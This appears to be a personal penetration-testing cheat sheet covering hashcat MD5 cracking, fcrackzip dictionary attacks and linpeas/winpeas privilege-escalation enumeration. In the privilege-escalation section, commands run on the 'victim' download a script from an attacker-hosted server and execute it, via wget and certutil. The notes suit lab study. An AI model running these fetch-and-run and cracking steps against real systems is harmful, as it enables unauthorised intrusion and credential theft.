 #### hashcat
useful for cracking hash using wordlist         [[cheat#Locate]]
`locate wordlist.txt`
`hashcat -m 0 file_contains_hash.txt /path/wordlist.txt`
`-m 0` -->  use module 0 => crack md5

if you need to use a module that you don't know:
`hashcast --help | grep protocol`
and look for module number for the protocol that you need

if you are decrypting multiple hashes
=>
after hashcat finish -->  retype the command with `--show`
`hashcat -m 0 file_with_hash.txt /path/wordlist.txt --show` -->  this will print only the pwds


> [!WARNING] 
> hashcat is heavy on GPU => it's bettere to avoid it inside a VM

----
### Crack
#### fcrackzip
cracks password protected zip files with brute force or dictionary based attacks
`fcrackzip -v -u -D -p /wordlist.txt zipName.zip`
`-v` -->  verbose
`-u` -->  unzip
`-D` --> Dictionary attack
`-p` -->  zip that we want to crack



-----
### Privilege Escalation
#### linpeas
automated tool to check if there are some potential priv escal inside the target
[linpeas github](https://github.com/carlospolop/PEASS-ng/releases/tag/20240211-db8c669a)
- Saved it locally inside a folder (+)
- create a server with python to download the script from the victim
- `cd (+)`
- `python3 -m http.server 80`
- from the victim shell:
	- `wget http://IP-ATTACKER/linpeas.sh`
	- `chmod +x linpeas.sh`
	- `./linpeas.sh`

#### winpeas
same as [[cheat#linpeas]] but -->  for windows
=>
automated tool to check if there are some potential priv escal inside the target
- download the .exe from [here](https://github.com/carlospolop/PEASS-ng/releases/tag/20240211-db8c669a)
- Saved it locally inside a folder (+)
- create a server with python to download the script from the victim
- `cd (+)`
- `python3 -m http.server 80`
- from the victim shell:
	- go inside a directory where you can write file
	- Use the correspective wget in windows
	- `certutil.exe -urlcache -f http://10.0.2.15/winpeas.exe winpeas.exe`   
	     (download from the ip winpeas.exe and save it as winpeas.exe)
	- `winpeas.exe`
